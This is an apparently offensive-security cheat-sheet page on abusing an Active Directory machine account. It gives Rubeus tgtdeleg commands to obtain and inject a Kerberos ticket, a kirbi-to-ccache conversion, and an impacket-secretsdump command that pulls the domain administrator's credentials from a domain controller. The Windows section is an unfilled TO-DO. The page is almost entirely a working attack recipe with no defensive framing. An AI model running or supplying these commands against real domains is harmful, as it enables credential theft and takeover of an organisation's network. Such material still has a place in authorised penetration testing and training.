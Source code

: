 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}

